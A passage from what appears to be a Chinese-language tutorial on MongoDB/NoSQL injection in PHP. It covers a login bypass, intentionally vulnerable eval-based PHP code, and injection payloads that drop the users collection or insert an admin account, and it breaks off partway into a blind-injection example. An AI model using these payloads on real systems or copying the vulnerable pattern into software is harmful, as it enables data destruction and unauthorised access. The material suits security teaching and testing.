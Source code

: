 ```php
select * from logins where username = 'admin' and (password true<> or ('a'='a' and password = ''))
```

这样，原本正常的查询语句会被转换为忽略密码的，在无需密码的情况下直接登录用户账号，因为`()`内的条件总是永真的。

### 1.5.4 使用 Command 方法造成的注入

懒了，这里也是直接贴出来

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

playload:

```php
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

### 1.5.5 盲注

#### 1.5.5.1 布尔盲注

index.php

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
```